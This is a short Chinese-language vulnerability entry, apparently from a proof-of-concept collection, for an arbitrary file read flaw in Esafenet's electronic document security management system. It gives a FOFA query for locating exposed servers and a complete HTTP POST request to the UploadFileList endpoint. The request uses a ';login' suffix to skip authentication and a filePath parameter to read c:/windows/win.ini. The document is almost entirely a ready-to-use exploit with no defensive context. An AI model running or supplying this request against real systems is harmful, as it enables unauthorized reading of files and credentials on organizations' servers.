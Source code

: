 ## 亿赛通电子文档安全管理系统UploadFileList任意文件读取漏洞

## fofa
```
app="亿赛通-电子文档安全管理系统"
```

## poc
```
POST /CDGServer3/document/UploadFileList;login HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

command=VeiwUploadFile&filePath=c:/windows/win.ini&fileName1=hello
```
